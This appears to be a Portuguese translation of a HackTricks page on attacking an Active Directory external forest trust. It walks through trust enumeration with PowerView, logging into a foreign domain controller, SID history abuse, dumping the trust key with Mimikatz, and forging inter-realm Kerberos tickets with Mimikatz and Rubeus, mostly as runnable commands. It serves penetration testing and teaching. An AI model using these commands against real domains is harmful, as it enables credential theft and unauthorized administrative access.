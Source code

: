 # Domínio de Floresta Externa - OneWay (Inbound) ou bidirecional

{{#include ../../banners/hacktricks-training.md}}

Neste cenário, um domínio externo está confiando em você (ou ambos estão se confiando mutuamente), então você pode obter algum tipo de acesso sobre ele.

## Enumeração

Primeiro de tudo, você precisa **enumerar** a **confiança**:
```bash
Get-DomainTrust
SourceName      : a.domain.local   --> Current domain
TargetName      : domain.external  --> Destination domain
TrustType       : WINDOWS-ACTIVE_DIRECTORY
TrustAttributes :
TrustDirection  : Inbound          --> Inboud trust
WhenCreated     : 2/19/2021 10:50:56 PM
WhenChanged     : 2/19/2021 10:50:56 PM

# Get name of DC of the other domain
Get-DomainComputer -Domain domain.external -Properties DNSHostName
dnshostname
-----------
dc.domain.external

# Groups that contain users outside of its domain and return its members
Get-DomainForeignGroupMember -Domain domain.external
GroupDomain             : domain.external
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=domain,DC=external
MemberDomain            : domain.external
MemberName              : S-1-5-21-3263068140-2042698922-2891547269-1133
MemberDistinguishedName : CN=S-1-5-21-3263068140-2042698922-2891547269-1133,CN=ForeignSecurityPrincipals,DC=domain,
DC=external

# Get name of the principal in the current domain member of the cross-domain group
ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1133
DEV\External Admins

# Get members of the cros-domain group
Get-DomainGroupMember -Identity "External Admins" | select MemberName
MemberName
----------
crossuser

# Lets list groups members
## Check how the "External Admins" is part of the Administrators group in that DC
Get-NetLocalGroupMember -ComputerName dc.domain.external
ComputerName : dc.domain.external
GroupName    : Administrators
MemberName   : SUB\External Admins
SID          : S-1-5-21-3263068140-2042698922-2891547269-1133
IsGroup      : True
IsDomain     : True

# You may also enumerate where foreign groups and/or users have been assigned
# local admin access via Restricted Group by enumerating the GPOs in the foreign domain.
```
Na enumeração anterior, foi encontrado que o usuário **`crossuser`** está dentro do grupo **`External Admins`** que tem **acesso de Admin** dentro do **DC do domínio externo**.

## Acesso Inicial

Se você **não conseguiu** encontrar nenhum acesso **especial** do seu usuário no outro domínio, você ainda pode voltar à Metodologia AD e tentar **privesc de um usuário não privilegiado** (coisas como kerberoasting, por exemplo):

Você pode usar as **funções do Powerview** para **enumerar** o **outro domínio** usando o parâmetro `-Domain` como em:
```bash
Get-DomainUser -SPN -Domain domain_name.local | select SamAccountName
```
{{#ref}}
./
{{#endref}}

## Impersonação

### Login

Usando um método regular com as credenciais dos usuários que têm acesso ao domínio externo, você deve ser capaz de acessar:
```bash
Enter-PSSession -ComputerName dc.external_domain.local -Credential domain\administrator
```
### Abuso de SID History

Você também pode abusar do [**SID History**](sid-history-injection.md) através de uma confiança de floresta.

Se um usuário for migrado **de uma floresta para outra** e **o SID Filtering não estiver habilitado**, torna-se possível **adicionar um SID da outra floresta**, e esse **SID** será **adicionado** ao **token do usuário** ao autenticar **através da confiança**.

> [!WARNING]
> Como lembrete, você pode obter a chave de assinatura com
>
> ```bash
> Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.domain.local
> ```

Você poderia **assinar com** a chave **confiável** um **TGT se passando** pelo usuário do domínio atual.
```bash
# Get a TGT for the cross-domain privileged user to the other domain
Invoke-Mimikatz -Command '"kerberos::golden /user:<username> /domain:<current domain> /SID:<current domain SID> /rc4:<trusted key> /target:<external.domain> /ticket:C:\path\save\ticket.kirbi"'

# Use this inter-realm TGT to request a TGS in the target domain to access the CIFS service of the DC
## We are asking to access CIFS of the external DC because in the enumeration we show the group was part of the local administrators group
Rubeus.exe asktgs /service:cifs/dc.doamin.external /domain:dc.domain.external /dc:dc.domain.external /ticket:C:\path\save\ticket.kirbi /nowrap

# Now you have a TGS to access the CIFS service of the domain controller
```
### Forma completa de se passar pelo usuário
```bash
# Get a TGT of the user with cross-domain permissions
Rubeus.exe asktgt /user:crossuser /domain:sub.domain.local /aes256:70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80 /opsec /nowrap

# Get a TGT from the current domain for the target domain for the user
Rubeus.exe asktgs /service:krbtgt/domain.external /domain:sub.domain.local /dc:dc.sub.domain.local /ticket:doIFdD[...snip...]MuSU8= /nowrap

# Use this inter-realm TGT to request a TGS in the target domain to access the CIFS service of the DC
## We are asking to access CIFS of the external DC because in the enumeration we show the group was part of the local administrators group
Rubeus.exe asktgs /service:cifs/dc.doamin.external /domain:dc.domain.external /dc:dc.domain.external /ticket:doIFMT[...snip...]5BTA== /nowrap

# Now you have a TGS to access the CIFS service of the domain controller
```
{{#include ../../banners/hacktricks-training.md}}
